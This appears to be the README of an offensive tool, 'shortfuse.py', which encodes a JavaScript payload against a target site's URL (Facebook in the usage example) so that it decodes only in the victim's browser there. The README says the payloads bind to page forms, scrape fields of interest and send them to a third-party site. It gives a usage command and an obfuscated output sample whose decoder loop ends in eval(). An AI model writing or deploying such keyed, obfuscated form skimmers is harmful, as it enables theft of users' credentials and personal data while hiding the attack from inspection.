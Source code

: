 Purpose
=======
Uses rolling modulus encoder (from doomsday) to encode a payload against a URL key. The JS will only decode if the proper site is being visited by the victim browser. On decode, payloads can be injected into the DOM and hook existing page functionality. 

Usage
=====
	python shortfuse.py "https://www.facebook.com" payloads/facebook

Payloads
========
It is assumed this tool would be used within a browser against a single target website. Payloads are simple form binders that scrape fields of interest and send them off to a third-party website.

Example Output
==============
function f() {u = window.location.toString();c = u.charCodeAt(0);c += u.length;var e = 'cCxMshOHB&5{eJ8?xTZ]W=Y0EI8\'*7s#*jO[:5#+b0kQ1sY^dOcW$^M)j8B)+8KW4p/sYw#h$&nTj%TmT;7K8+uMPJXk]>[.`VfK5s,htk{R(2mS*oLR:{&m;E)g>q23v{s Y5O"*6mGm?|-veD6rBL0nExD#2{xS/Iz$0g5r`{h?:7>)9CipR7C"{iqJvS9vWB+3p[DL';H = '';for ( n=0; n<e.length; n++){c = c % 0x5e;v = e.charCodeAt(n) + c;if (v >= 0x7e){v = v-0x5e;}H += String.fromCharCode(v);c += v;}return H;}var S = f();eval(S);
